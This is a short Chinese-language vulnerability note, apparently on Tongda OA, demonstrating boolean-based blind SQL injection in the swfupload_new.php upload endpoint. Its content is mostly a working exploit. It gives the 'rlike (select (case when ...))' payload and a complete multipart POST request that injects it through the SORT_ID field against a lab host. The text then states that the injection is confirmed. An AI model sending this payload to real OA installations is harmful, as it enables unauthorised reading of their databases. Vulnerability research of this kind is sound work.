 ```
rlike (select (case when (1=1) then 1 else 0x28 end))
```

如下图，证明存在布尔盲注

```
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 192.168.163.146:8080
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 413
x-wvs-id: Acunetix-Deepscan/186
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

0 rlike (select (case when (1=1) then 1 else 0x28 end))
------------GFioQpMK0vv2--
```

可以看到，这里存在布尔盲注

![image-20210409184751007](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409184751007.png)

